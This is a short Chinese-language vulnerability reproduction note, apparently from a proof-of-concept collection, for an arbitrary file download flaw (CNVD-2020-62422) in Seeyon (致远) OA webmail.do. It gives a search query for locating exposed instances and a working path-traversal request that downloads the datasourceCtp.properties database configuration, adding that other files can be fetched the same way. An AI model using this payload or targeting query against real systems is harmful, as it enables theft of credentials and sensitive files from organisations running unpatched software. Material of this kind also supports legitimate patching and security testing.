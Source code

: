 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

# 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

```
致远OA A6-V5
致远OA A8-V5
致远OA G6
```

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

验证POC

```
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![image-20220520153850024](/images/202205201538060.png)

更改参数 filePath 可下载其他文件

